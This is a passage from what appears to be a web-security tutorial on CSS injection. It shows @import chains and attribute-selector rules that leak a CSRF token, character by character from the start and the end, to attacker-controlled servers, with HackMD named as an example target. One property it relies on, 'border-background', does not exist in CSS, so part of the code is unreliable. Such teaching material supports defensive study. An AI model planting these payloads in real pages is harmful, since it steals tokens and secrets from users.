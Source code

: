 Therefore, two domains need to be set to avoid this situation.

In addition, this method is not feasible in Firefox because even if the response of the first request comes back, Firefox will not update the style immediately. It will wait for all requests to return before updating. The solution can be found in [CSS data exfiltration in Firefox via a single injection point](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/). Remove the first import step and wrap each character's import in an additional style, like this:

``` html
<style>@import url(https://myserver.com/payload?len=1)</style>
<style>@import url(https://myserver.com/payload?len=2)</style>
<style>@import url(https://myserver.com/payload?len=3)</style>
<style>@import url(https://myserver.com/payload?len=4)</style>
<style>@import url(https://myserver.com/payload?len=5)</style>
<style>@import url(https://myserver.com/payload?len=6)</style>
<style>@import url(https://myserver.com/payload?len=7)</style>
<style>@import url(https://myserver.com/payload?len=8)</style>
```

The above code works fine in Chrome, so we can change it to the above code to support both browsers.

To summarize, using the `@import` CSS feature allows us to "dynamically load new styles without reloading the page" and thus steal every character from behind.

## Stealing one character at a time is too slow, isn't it?

If we want to execute this type of attack in the real world, we may need to improve efficiency. For example, in HackMD, the CSRF token has a total of 36 characters, so we need to send 36 requests, which is too many.

In fact, we can steal two characters at a time because, as mentioned in the previous section, there are suffix selectors in addition to prefix selectors. Therefore, we can do this:

``` css
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

// ...
input[name="secret"][value$="a"] {
  border-background: url(https://b.myserver2.com/suffix?q=a)
}

input[name="secret"][value$="b"] {
  border-background: url(https://b.myserver2.com/suffix?q=b)
}
```

In addition to stealing the beginning, we also steal the end, which immediately doubles the efficiency. It is important to note that the CSS for the beginning and end uses different properties, `background` and `border-background`, respectively. If we use the same property, the content will be overwritten by others, and only one request will be sent in the end.
